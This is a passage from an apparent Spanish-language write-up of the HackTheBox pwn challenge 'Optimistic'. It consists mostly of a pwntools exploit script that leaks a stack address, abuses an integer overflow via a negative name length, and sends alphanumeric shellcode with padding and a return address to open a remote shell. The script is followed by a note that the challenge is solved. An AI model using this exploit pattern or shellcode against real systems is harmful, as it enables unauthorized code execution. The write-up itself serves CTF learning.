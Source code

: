 ```python
#!/usr/bin/env python3

from pwn import remote, p64, log

if __name__ == '__main__':
    p = remote('206.189.121.78', 31545)
    p.sendlineafter(b'Would you like to enroll yourself? (y/n): ', b'y')

    # Extracting Stack Leak
    p.recvuntil(b'Great! Here\'s a small welcome gift: ')
    stack_leak = p.recvline().decode()
    stack_leak_addr = p64(int(stack_leak, 16) - 0x60)

    log.info(f"Stack Leaked Address: f{stack_leak}")
        
    p.sendafter(b'Email: ', b'a')
    p.sendafter(b'Age: ', b'-1')

    # Exploiting Integer Overflow
    p.sendlineafter(b'Length of name: ', b'-1')

    # Shellcode
    offset = 104
    shellcode = b'XXj0TYX45Pk13VX40473At1At1qu1qv1qwHcyt14yH34yhj5XVX1FK1FSH3FOPTj0X40PP4u4NZ4jWSEW18EF0V'
    padding = b'\x41' * (offset - len(shellcode)) 
    payload = shellcode + padding + stack_leak_addr
     
    p.sendafter(b'Name: ', payload)
    p.interactive()
```

Y ya con esto, el desafío está `pwned`:

![Untitled](/assets/img/htb/pwn/Optimistic/Untitled%2013.png)

### References
